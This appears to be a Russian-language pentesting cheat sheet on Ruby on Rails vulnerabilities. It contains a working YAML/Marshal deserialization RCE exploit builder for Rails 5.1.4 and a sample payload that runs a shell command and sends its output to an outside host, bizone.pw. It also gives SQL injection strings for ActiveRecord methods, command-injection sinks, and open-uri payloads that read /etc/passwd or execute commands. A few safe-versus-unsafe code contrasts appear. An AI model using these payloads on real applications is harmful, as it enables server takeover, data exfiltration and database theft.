 # Common Security Issues

## Deserializations

### Marshal.load(\<user\_input>) = RCE

Ruby Marshal+Base64 RCE payload playground/generator: [https://repl.it/@allyshka/Ruby-RCE-with-Marshalload](https://repl.it/@allyshka/Ruby-RCE-with-Marshalload)

Other guide: [https://www.elttam.com/blog/ruby-deserialization/](https://www.elttam.com/blog/ruby-deserialization/)

### YAML.load(\<user\_input>) = RCE

### Rails 5.1.4 YAML unsafe deserialization RCE payload

Example: [https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f](https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f)

Точно работает на Rails **5.1.4**

```ruby
require "erb"
require "base64"
require "active_support"
 
if ARGV.empty?
  puts "Usage: exploit_builder.rb <source_file>"
  exit!
end
 
erb = ERB.allocate
erb.instance_variable_set :@src, File.read(ARGV.first)
erb.instance_variable_set :@lineno, 1
 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
 
payload = Base64.encode64(Marshal.dump(depr))
 
puts <<-PAYLOAD
---
!ruby/object:Gem::Requirement
requirements:
  - !ruby/object:Rack::Session::Abstract::SessionHash
      req: !ruby/object:Rack::Request
        env:
          rack.session: !ruby/object:Rack::Session::Abstract::SessionHash
            loaded: true
          HTTP_COOKIE: "a=#{payload}"
      store: !ruby/object:Rack::Session::Cookie
        coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
        key: a
        secrets: []
      exists: true
PAYLOAD
```

Пример payload:

```ruby
require "base64"
out = `pwd`
url = URI.parse('http://bizone.pw')
req = Net::HTTP::Get.new(url.to_s + '/?q=' + Base64.strict_encode64(out))
res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}
```

## IDOR in RoR

Добавление .json к пути, если у нас Ruby

```
/user_data/2341      --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## SQL Injections

### SQLi in ORDER BY

Только посмотрите, как круто в коде `RubyOnRails` выглядит `SQLi` в ORDER BY:\
`Client.order(:first_name)`\
Т.е. Active Record Query Interface после такого вызова построит следующий запрос:\
`'SELECT * FROM Clients ORDER BY #{:first_name}'` , где `#{:first_name}` - это user input.\
Метод `.order()` не фильтрует и не экранирует получаемые данные. А значит, в таком случае мы легко можем раскрутить `Blind SQLi` c подзапросом вроде:\
`ORDER BY 1,(SELECT 1 FROM SLEEP(5))`-- , где дальше можно крутить Boolean-based, Time-based и пр.\
P.S. Почему это круто?!\
Потому что разработчики, когда пишет код, даже не подозревает, что вызов вроде `Client.order(:first_name)` приведет к `SQLi`. Тут ничего не режет глаз, нет конкатенации, нет опасных функций, казалось бы и пр.

### SQLi: Active Record — Rails ORM

Как выглядит в коде SQLi

```ruby
def index
    ...
    name = params[:name]
    @projects = Project.where("name like '" + name + "'");
    ...
end
```

```ruby
# Unsafe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = '#{email}'"
)
results = st.execute
st.close

# Safe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = ?"
)
results = st.execute(email)
st.close
```

```ruby
# Unsafe exists
User.exists? params[:user]

# For Example: ?user[]=1 -> 
SELECT  1 AS one FROM "users"  WHERE (1) LIMIT 1


# Unsage find_by
params[:id] = "admin = 't'"
User.find_by params[:id]

# from
params[:from] = "users WHERE admin = 't' OR 1=?;"
User.from(params[:from]).where(admin: false)

# group
params[:group] = "name UNION SELECT * FROM users"
User.where(:admin => false).group(params[:group])

# ...
```

В общем, надо просматривать обращение ко всем объектам, унаследованным от ActiveRecord::Base и смотреть обращение к ним через встроенные функции where, find\_by, exists и тп

Подробнее с примерами: [\
https://rails-sqli.org/](https://rails-sqli.org/)

## Command Injection

```ruby
eval("ruby code here")
system("os command here")
`ls -al /` # (backticks contain os command)
exec("os command here")
open("\| os command here")
```

## Code Execution

```ruby
class_eval <<-RUBY, __FILE__, __LINE__ + 1
  def #{item}?
    code == '#{item.upcase}'
  end
RUBY
```

## open-uri

Если используется в коде этот пакет, то есть возможность исполнить код на стороне сервера (так как используется внутри [Kernel.open](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-open))

Пример кода уязвимого

```ruby
require "open-uri"

open(params[:url]) { |f|
    f.each_line {|line| p line}
}
```

Payloads:

```ruby
url = "|ls"

# open(params[:url]) if param[:url] =~ /^https:// , то сработает так:
url = "|touch n;\nhttps://url.com"  # Почему? читай про broken Regexp (use \A\z) в Ruby: https://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

# Если так: open(URI(params[:url])) -> Local File Read
url = "/etc/passwd"

# open(params[:url]) if URI(params[:url]).scheme == 'http'
url = "http:/../../../../../../../etc/passwd"
```

Mitigation: переходить на `openURI`.

## SSTI

```ruby
render <user_input>
```

SSTI: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections)
